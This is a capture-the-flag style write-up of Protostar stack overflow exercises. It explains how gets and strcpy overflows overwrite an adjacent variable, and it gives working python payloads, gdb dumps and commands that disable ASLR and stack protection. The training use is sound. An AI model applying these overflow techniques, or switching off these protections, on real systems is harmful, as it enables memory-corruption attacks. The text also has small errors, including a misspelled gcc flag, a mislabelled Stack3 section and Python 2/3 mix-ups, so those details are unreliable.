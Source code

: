 # Writeup Protostar2: Stack

Check ASLR:
```bash
sysctl -a --pattern "randomize"
```

Disable ASLR temporarily:

```bash
sudo /sbin/sysctl -w kernel.randomize_va_space=0
```

Disable stack protection and make stack executable:
```bash
gcc -m32 -ggdb -fno-stack-protection -z execstack <source.c>
```

## Stack0

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];
    modified = 0;
    gets(buffer);

    if(modified != 0) {
        printf("you have changed the 'modified' variable\n");
    } else {
        printf("Try again?\n");
    }
}
```

`volatile` is a keyword in C indicating that this variable can change anytime  
by outside the code and is omitted from compiler optimization.

```
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
```

The integer `modified` is at `[esp+0x5c]` and is assigned to 0.  
Our buffer is right above it starting at `[esp+0x1c]`. We can easily verify the size:

```bash
(gdb) print 0x5c-0x1c
$1 = 64
```

A pointer to our buffer is 'pushed' onto the stack. After the call to `gets` the value of `modified` is checked against 0. The `gets` function has no boundery checks so we can write more than 64 bytes into the buffer and land in our modified variable. Every value besides 0 would evalute to true so writing 1 more byte into the buffer would set the least significant byte (because of the endianess) and would print the winning message.

```
(gdb) x/d $esp+0x5c
0xbffff69c:     2
(gdb) x/xw $esp+0x5c
0xbffff69c:     0x00000002
(gdb) x/5xb $esp+0x5b
0xbffff69b:     0x41    0x02    0x00    0x00    0x00

user@protostar:/opt/protostar/bin$ python -c "print '\x41' * 64 + '\x02'" | ./stack0
you have changed the 'modified' variable
```

**Note:**

The print function appends a new line character `0xa` at the end.  
To avoid this we can use `sys.stdout.write()`:

```bash
user@protostar:/opt/protostar/bin$ python -c "print '\x41' * 3" | hexdump -C
00000000  41 41 41 0a                                       |AAA.|
00000004
user@protostar:/opt/protostar/bin$ python -c "import sys; sys.stdout.write('\x41' * 3)" | hexdump -C
00000000  41 41 41                                          |AAA|
00000003
```

**Resources:**

https://linux-audit.com/linux-aslr-and-kernelrandomize_va_space-setting/  
https://docs.python.org/2/library/sys.html#sys.stdout

## Stack1

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

This time we can specify user-defined input as an input parameter to `stack1`.  
The program uses the unsafe function `strcpy`. The man pages already warns us:

> The strings may not overlap, and the destination string dest must be large enough
> to receive the copy.  Beware of buffer overruns!  (See BUGS.)

This time we have to overwrite `modified` with `0x61626364`.  
The Intel x86 processors use the little-endian format where the least significant byte is stored at the lowest memory address. So `0x61626364` is actually saved as `0x64 0x63 0x62 0x61`. We can use the python's `struct` module to get the correct byte order and dump the bytes like this:

```python
#!/usr/bin/env python3

import struct

data = struct.pack('<I', 0x61626364)
data = ''.join('\\x{:02X}'.format(a) for a in data)
print(data)

# \x64\x63\x62\x61
```

Now we can simply craft another input string:

```
$ python -c "import sys; sys.stdout.buffer.write(b'\x41' * 64 + b'\x64\x63\x62\x61')" | xxd
00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000030: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000040: 6463 6261                                dcba
```

We can directly input it as an argument to gdb's `run` command:

```bash
(gdb) run $(python -c "import sys; sys.stdout.write(b'\x41' * 64 + b'\x64\x63\x62\x61')")
Starting program: /opt/protostar/bin/stack1 $(python -c "import sys; sys.stdout.write(b'\x41' * 64 + b'\x64\x63\x62\x61')")
you have correctly got the variable to the right value
```

## Stack3

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

This time we can control the input via an environment variable. We can set an environment variable via `export`. We can use `printenv` to make sure that the variable is set correctly and that it is an environment variable and not a shell variable. Shell variables won't work here.

```bash
$ export GREENIE=$(python -c "import sys; sys.stdout.write(b'\x41' * 64 + b'\x0A\x0D\x0A\x0D')")
$ printenv GREENIE
$ ./stack3
$ you have correctly modified the variable
```
